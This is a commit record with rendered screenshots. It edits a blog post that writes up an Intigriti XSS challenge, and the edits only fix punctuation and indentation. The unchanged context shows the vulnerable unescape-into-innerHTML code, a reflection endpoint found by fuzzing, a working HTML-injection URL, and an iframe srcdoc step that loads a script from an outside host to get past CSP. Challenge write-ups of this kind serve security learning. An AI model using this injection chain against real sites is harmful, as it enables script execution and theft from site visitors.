

Before and after one commit to searabbitx/searabbitx.github.io, a Jekyll site: the page built from _posts/2020-04-21-intigriti-xss-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 1494 px. Shown: the whole window, without its empty margins (208-1072 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-04-21-intigriti-xss-writeup.md

````diff
--- a/_posts/2020-04-21-intigriti-xss-writeup.md
+++ b/_posts/2020-04-21-intigriti-xss-writeup.md
@@ -18,7 +18,7 @@ CSP was set in headers to:
 ```
 content-security-policy: default-src 'self'
 ```
-so nothing, except of `<script src="./....">` was allowed, and there was only one js file used on the page:
+so nothing except of `<script src="./....">` was allowed and there was only one js file used on the page:
 
 {% highlight js  linenos %}
 var hash = document.location.hash.substr(1);
@@ -34,11 +34,11 @@ function reasonLoaded () {
     reason.innerHTML = unescape(this.responseText);
 }
 function displayReason(reason){
-  window.location.hash = reason;
-  var xhr = new XMLHttpRequest();
-  xhr.addEventListener("load", reasonLoaded);
-  xhr.open("GET",`./reasons/${reason}.txt`);
-  xhr.send();
+    window.location.hash = reason;
+    var xhr = new XMLHttpRequest();
+    xhr.addEventListener("load", reasonLoaded);
+    xhr.open("GET",`./reasons/${reason}.txt`);
+    xhr.send();
 }
 {% endhighlight %}
 
@@ -51,9 +51,9 @@ The [unescape](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference
 ```javascript
 unescape('%23hello%2f') === "#hello/"
 ```
-Therefore it'd be wonderful if we can find any endpoint that would reflect url-encoded strings to inject anything we want into `reason`'s innerHTML.
+Therefore, it'd be wonderful if we could find any endpoint that would reflect url-encoded strings to inject anything we want into `reason`'s innerHTML.
 
-A bit of fuzzing with [dirsearch](https://github.com/maurosoria/dirsearch) reveals that paths that start with `challenge.intigriti.io/_ah` behave differently, than other paths for non-existing resources, they reflect url-encoded strings. Bingo!
+A bit of fuzzing with [dirsearch](https://github.com/maurosoria/dirsearch) reveals that paths that start with `challenge.intigriti.io/_ah` behave differently than other paths for non-existing resources, they reflect url-encoded strings. Bingo!
 
 For example: https://challenge.intigriti.io/_ah%3Ch1%3Ehello%3C/h1%3E was giving us:
 
@@ -67,7 +67,7 @@ Great!
 
 Moreover, using `../` in `location.hash` we are able to put response generated by `./_ah...` in our `innerHTML` execution sink.
 
-Now, we are able to inject any html on our page. Let's say we want to inject `<h1>hello</h1>`. All we need to do is to simply use the following url:
+Now we are able to inject any html on our page. Let's say we want to inject `<h1>hello</h1>`. All we need to do is to simply use the following url:
 ```
 https://challenge.intigriti.io/#../_ah%3C/code%3E%3Ch1%3Ehello%3C/h1%3E
 ```
@@ -82,9 +82,9 @@ Using this `_ah` was not an intended way to solve this challenge. This behaviour
 
 # Step 2. Injecting `<script src=...>`
 
-`innerHTML` let's us do a lot of cool things, but it won't enable us to execute code using `<script>` tag, so we need to find another way.
+`innerHTML` let's us do a lot of cool things but it won't enable us to execute code using `<script>` tag so we need to find another way.
 
-After trying lot's of different stuff, I've found [srcdoc](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-srcdoc) attribute of iframe useful. We can simply create an iframe with `<script src="https://example.com/our_script.js"></script>` via srcdoc in the following way:
+After trying lot's of different stuff I've found [srcdoc](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-srcdoc) attribute of iframe useful. We can simply create an iframe with `<script src="https://example.com/our_script.js"></script>` via srcdoc in the following way:
 
 ```html
 <iframe
````
Also changed, not shown: other parts of _posts/2020-04-21-intigriti-xss-writeup.md (+1 -1 lines).
